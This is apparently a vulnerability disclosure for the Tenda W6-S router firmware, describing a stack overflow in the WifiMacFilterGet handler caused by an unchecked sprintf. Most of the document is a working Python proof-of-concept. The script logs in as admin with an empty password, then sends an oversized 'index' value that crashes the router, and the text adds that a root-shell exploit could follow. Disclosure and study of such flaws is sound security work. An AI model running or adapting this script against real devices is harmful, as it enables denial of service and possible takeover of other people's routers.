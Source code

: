 # Tenda W6-S V1.0.0.4(510) Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2627.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W6-S/exeCommand/img/1.png)

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W6-S/WifiMacFilterGet/img/2.png)

In /goform/WifiMacFilterGet, when wl_radio is 0, the index will be spliced into v6 by sprintf. It is worth noting that there is no size check, which leads to a stack overflow vulnerability.

## Poc

```python
import requests

target_url = 'http://192.168.10.105/login/Auth'

target_headers = {'Host' : '192.168.10.105',
'Content-Length' : '65',
'Accept' : '*/*',
'X-Requested-With' : 'XMLHttpRequest',
'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36',
'Content-Type' : 'application/x-www-form-urlencoded; charset=UTF-8',
'Origin' : 'http://192.168.10.105',
'Referer' : 'http://192.168.10.105/main.html',
'Accept-Encoding' : 'gzip, deflate',
'Accept-Language' : 'en-US,en;q=0.9',
'Cookie' : 'user=',
'Connection' : 'close'}
p1 = 'usertype=admin&password=&time=2022;7;6;14;9;6&username='

requests.post(target_url, headers = target_headers, data = p1, verify = False, timeout = 1)

target_url = 'http://192.168.10.105/goform/WifiMacFilterGet'

target_headers = {'Host' : '192.168.10.105',
'Content-Length' : '295',
'Accept' : '*/*',
'X-Requested-With' : 'XMLHttpRequest',
'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36',
'Content-Type' : 'application/x-www-form-urlencoded; charset=UTF-8',
'Origin' : 'http://192.168.10.105',
'Referer' : 'http://192.168.10.105/main.html',
'Accept-Encoding' : 'gzip, deflate',
'Accept-Language' : 'en-US,en;q=0.9',
'Cookie' : 'user=',
'Connection' : 'close'}

p2 = 'wl_radio=0&index=' + 'a' * 0x3000
requests.post(target_url, headers = target_headers, data = p2, verify = False, timeout = 1)
```

After sending the poc, the router will crash, and finally we can write the exp to get the root shell
